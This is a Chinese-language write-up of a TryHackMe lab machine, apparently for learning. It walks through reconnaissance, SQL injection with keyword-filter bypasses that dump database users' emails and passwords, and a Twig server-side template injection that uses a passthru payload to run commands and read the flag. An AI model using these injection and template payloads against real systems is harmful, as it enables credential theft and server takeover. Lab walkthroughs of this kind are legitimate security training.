一、信息收集 (Reconnaissance)

首先对目标主机进行端口扫描。

nmap -sC -sV -p- target_ip

扫描结果如下：

扫描发现主要开放端口：

22/tcp   open  ssh
80/tcp   open  http

说明目标主要攻击面为 Web服务。

二、Web信息枚举

访问目标：

http://target_ip

进入网站首页。

2.1 页面源代码分析

查看页面源代码后发现：

HTML 注释中泄露了一些提示信息

发现存在 mail.log 文件

这些信息可能在后续利用中发挥作用。



2.2 技术栈识别

使用 Wappalyzer 识别网站技术栈。

结果显示：

Apache 2.4

虽然 Apache 2.4 存在部分公开漏洞，但尝试利用后发现属于 Rabbit Hole。

三、目录扫描

使用 Gobuster 进行目录扫描。

gobuster dir -u http://target_ip -w /usr/share/seclists/Discovery/Web-Content/common.txt

扫描结果如下：

发现关键文件：

/mail.log
/composer.json
/phpmyadmin

这些文件可能包含重要信息。

四、识别模板引擎

打开 composer.json 文件。images/composer_json.png


发现网站使用：

Twig 2.14.0

Twig 是常见的 PHP 模板引擎。

若存在输入未过滤，可能导致 SSTI（Server-Side Template Injection）漏洞。

五、SQL 注入漏洞测试

登录页面包含输入框：

email
password

尝试构造基础 SQL 注入：

' OR 1=1-- -

但页面提示输入非法。



说明：

可能存在 客户端过滤机制。

六、绕过客户端过滤

查看页面 JavaScript 代码发现：

存在关键字过滤：

OR
AND
SELECT
'
"




可以使用 Burp Suite 拦截请求绕过客户端过滤。

七、SQL注入利用

使用 Burp Suite 修改请求参数。
即在burp中修改请求为a' or 1=1;-- -，并发送


发现失败(意料之内，说明存在服务器过滤)
尝试将载荷进行url编码，发现依旧失败
测试 payload：

a' || 1=1-- -



成功绕过过滤。

方法二：

也可使用burp的intruder来对email进行注入爆破，关键在于注入的载荷字典(网上查一个sql注入载荷字典即可)


测试结果如下



使用破解得到的载荷进行登录，成功(要进行拦截请求，然后在burp中将请求修改在发送到服务器)



八、SQL注入点确认

发现编辑栏存在三个注入点，尝试执行测试发现只接受数字输入

对此编辑栏进行手动sql测试，根据页面功能推测此sql大概率是修改类sql

burp捕获一个正常的更新请求，来推断页面的sql的修改逻辑(sql查询语句)发现参数：

rank
country
gold
silver
bronze

对五个参数进行测试，gold，silver，bronze是对应的用户输入，所以尝试rank和country功能

在编辑国家USA时将rank修改为2，提交请求发现修改了china。

所以推断rank是用来判断修改哪个国家的参数

进行验证测试，将gold载荷设置为：gold=555 WHERE `rank`=3;-- -。

数据被成功修改。



说明判断正确，且确认存在 SQL Injection。

(但注意：即使不成功也可能是存在sql过滤的原因，不能用来否定查询语句推断错误)

九、数据库枚举

枚举数据库

gold=1,country=(select group_concat(schema_name) from information_schema.schemata)

测试发现失败，所以因存在过滤器

下一步是测试过滤器过滤什么

gold=1,country="SELECT OR AND group_concat FROM WHERE '"



所以SELECT 、 OR 和 AND字符串被过滤

尝试绕过：

gold=1,country="SESELECTLECT"



成功绕过过滤（说明并没有使用递归过滤）。

获取数据库：

gold=1,country=(seSELECTlect group_concat(schema_name) from infoORrmation_schema.schemata)

bac_test



枚举表

gold=1,country=(seSELECTlect group_concat(table_name) from infoORrmation_schema.tables WHERE table_schema='bac_test')

得到：

users

枚举字段

gold=1,country=(seSELECTlect group_concat(column_name) from infoORrmation_schema.columns WHERE table_name='users')

得到字段：

email
password

获取用户数据

gold=1,country=(seSELECTlect group_concat(email,':',passwoORrd) from bac_test.users)

成功获取管理员账号密码。

十、管理员后台登录

使用获取的账户登录后台。



后台存在 Profile 页面。

该页面包含可控输入。主界面的标题可通过first name修改

测试sql注入无果

十一、SSTI 漏洞验证

测试模板注入：

{{8*8}}

返回：

64



确认存在 SSTI漏洞。

模板引擎为：

Twig

十二、SSTI漏洞利用

常见的针对TWig模板引擎的载荷如下所示



尝试执行命令：

{{ system('id') }}

失败。

说明：

system函数被禁用

继续尝试 payload：改为使用passthru

{{['id',1]|sort('passthru')|join}}

成功执行命令。

📷 截图位置

images/ssti_command_execution.png


继续执行：

ls

找到 flag 文件。



十三、获取 Flag

执行：

cat flag.txt

最终获得flag

十四、漏洞总结

本靶机涉及漏洞：

SQL Injection	数据库信息泄露

SSTI	模板注入导致命令执行

过滤绕过	JS 与 WAF 关键字绕过

十五、经验总结

通过本次靶机学习得到以下经验：

1 不要过度依赖自动化工具

手动 SQL 注入能够：

分析过滤机制

构造绕过 payload

理解底层原理

2 页面源码必须仔细查看

很多敏感信息会隐藏在：

HTML 注释
JS 文件
配置文件

3 目录扫描非常重要

应包含多种文件类型：

log
json
config
bak

4 SSTI利用需要尝试不同函数

常见函数包括：

system
exec
passthru
shell_exec
popen

十六、参考资料

TryHackMe 平台

OWASP Top 10

PayloadsAllTheThings
